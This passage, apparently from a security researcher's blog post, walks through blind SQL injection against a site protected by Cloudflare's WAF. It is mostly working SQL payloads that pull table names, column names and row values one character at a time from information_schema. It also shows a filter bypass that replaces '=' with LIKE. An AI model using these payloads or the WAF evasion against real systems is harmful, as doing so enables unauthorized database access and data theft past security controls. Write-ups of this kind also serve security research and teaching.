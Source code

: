 which would result in the following SQL query to be executed on the server:

{% highlight sql %}
SELECT c1,c2,c3 FROM t1
WHERE 'a' =
 (SELECT SUBSTRING(table_name, 2, 1)
  FROM information_schema.tables
  LIMIT 4, 1
 )
{% endhighlight %}

When I found the table name to be t1 for example, I was to brute force its
columns' names with the following starting injection:

*INJECTION 1*
{% highlight sql %}
'a' =
 (SELECT SUBSTRING(column_name, 1, 1)
  FROM information_schema.columns
  WHERE table_name = "t1"
  LIMIT 0, 1
 )
{% endhighlight %}

and then actually get values out of column c1 of table t1 by starting with the
following injection:

{% highlight sql %}
'a' =
 (SELECT SUBSTRING(c1, 1, 1)
  FROM t1
  LIMIT 0, 1
 )
{% endhighlight %}

The idea was good, but Cloudflare would complain about the '=' sign. The
injection

{% highlight sql %}
'a' = 'b'
{% endhighlight %}

would get blocked by Cloudflare's WAF. After a bit of fiddling, I came up with
the following request that bypassed the '=' restriction:

{% highlight sql %}
'a' LIKE 'b'
{% endhighlight %}

This means that the initial injection *INJECTION 1* would become:

{% highlight sql %}
'a' LIKE
 (SELECT SUBSTRING(column_name, 1, 1)
  FROM information_schema.columns
  WHERE table_name = "t1"
  LIMIT 0, 1
 )
{% endhighlight %}
